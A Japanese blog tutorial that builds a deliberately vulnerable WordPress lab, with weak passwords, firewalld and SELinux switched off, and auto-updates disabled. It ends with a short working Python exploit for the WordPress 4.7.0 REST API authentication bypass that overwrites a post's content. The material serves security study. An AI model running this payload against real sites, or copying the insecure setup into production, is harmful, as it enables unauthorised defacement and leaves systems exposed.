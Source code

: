 ```yaml
---
layout: post
title:  "WordPress Build & Crack"
date:   2018-10-29
permalink: /security/:title
categories: Security
tags: WordPress
excerpt: WordPressの構築とクラッキング
mathjax: false
---
```


* content
{:toc}

# 環境構築

## php
```
# phpのインストール
yum install -y php php-mysql

# phpが動作することを確認
php -r 'print "hello world\n"'
```

## Apache httpd
```
# Apache httpdの起動
systemctl enable httpd
systemctl start httpd

# テストページの設置
cat > /var/www/html/index.php << END
<?php
phpinfo();
?>
END
```

### (option)firewalld/selinux
検証環境を手早く構築するためにセキュリティ機構を停止しています。
本来は適切なアクセス許可を付与するべきです。
```
# ファイアウォールの停止
systemctl stop firewalld

# SELinuxの停止
setenforce 0
```

テストページにアクセスして動作確認します。

![](/images/wordpress/phpinfo.png)

## MySQL(MariaDB)
WordpressのバックエンドDBのMySQLを用意します。
ここで作成するデータベース名、ユーザー名、パスワードは後で参照するので覚えておいてください。
```
# MariaDBのインストールと起動
yum install -y mariadb mariadb-server
systemctl enable mariadb
systemctl start mariadb

# データベースの初期化スクリプトを作成
cat > /tmp/init.sql << END
set password for root@localhost=password('wordpress');
insert into user set user="wpadmin", password=password("wordpress"), host="localhost";
create database wpdb;
grant all on wpdb.* to wpadmin;
flush privileges;
END

# データベースの初期化スクリプトを実行
mysql -u root -D mysql < /tmp/init.sql

# 以下の設定が完了したことを確認
# - rootユーザーのパスワードが変更されていること
# - wpdbデータベースが作成されていること
# - wpdbデータベースの権限を持つwpadminユーザーが作成されていること
echo 'select Db, User from db;'| mysql -u root -D mysql -pwordpress

# wpadminユーザーでログインできることを確認
echo 'show tables;'|mysql -u wpadmin -D wpdb -pwordpress
```

## wordpress
wordpress公式が古いバージョンのWordPressを配布しています。
利用する脆弱性に応じたWordPressを取得してください。
例としてWordPress4.6.0の設置手順を記載します。
```
# wordpressのダウンロードと設置
wget https://ja.wordpress.org/wordpress-4.6-ja.tar.gz -O /tmp/wordpress-4.6-ja.tar.gz
tar -zxvf /tmp/wordpress-4.6-ja.tar.gz -C /var/www/html/
mv /var/www/html/wordpress/ /var/www/html/4.6.0/

# アクセス権限をapache:apacheに変更
chown -R apache: /var/www/html/4.6.0
```
ブラウザからwordpressのパスにアクセスすると初期設定ウィザードが開きます。
いくつかの項目を埋めてwp-config.php（Wordpressの設定ファイル）を作成します。
![](/images/wordpress/setup-config.png)

MySQLに作成したデータベース名、ユーザー名、パスワードを指定します。
ここで指定するユーザーはサイトの管理者ではありません。
![](/images/wordpress/setupconfig2.png)

wp-config.phpが作成されたらこの画面が表示されます。
まだインストール実行をクリックしないでください。
![](/images/wordpress/setupconfig3.png)

今回は脆弱性のある環境を構築するため、あらかじめWordpressの自動更新を無効化します。
```
# Wordpressの自動アップデートを無効化
echo "define('AUTOMATIC_UPDATER_DISABLED', true);" >> /var/www/html/4.6.0/wp-config.php
```

自動更新を無効化したらインストール実行をクリックします。
ここで指定するユーザーがサイトの管理者になります。
パスワードを忘れないようにメモしてください。
![](/images/wordpress/setupconfig4.png)

サイトの情報を設定してWordPressをインストールをクリックすれば構築は完了です。
![](/images/wordpress/installcomplete.png)

Hello world!にアクセスできることを確認します。
![](/images/wordpress/wpindex.png)

### (option)wp_posts
WordPressのコンテンツデータはデータベースに格納されています。
mysqlにアクセスすることで投稿内容を確認できます。
```
# wpdbデータベースにテーブルが増えている事を確認
echo "show tables;" | mysql -u wpadmin -D wpdb -pwordpress

# postsテーブル（投稿に関する情報）を確認
echo "select * from wp_46posts;" | mysql -u wpadmin -D wpdb -pwordpress
```
# REST API Vulnerability
WordPress4.7.0からREST APIが実装されました。
APIを介してコンテンツの取得、更新、削除が行えます。
REST APIが有効ならば以下のURLでコンテンツの一覧を取得できます。
```
http://localhost/4.7.0/index.php/wp-json/wp/v2/posts/
```
WordPress4.7.0のREST APIには認証バイパスの脆弱性があります。
例えば以下のコードはWordPress4.7.0のHello World!ページを書き換えます。
```
#!/usr/bin/python
import urllib, urllib2
url = "http://localhost/4.7.0/index.php/wp-json/wp/v2/posts/1/?id=1abc"
payload = {'content': 'Your are hacked!!'}
payload = urllib.urlencode(payload)
request = urllib2.Request(url, payload)
urllib2.urlopen(request)
```
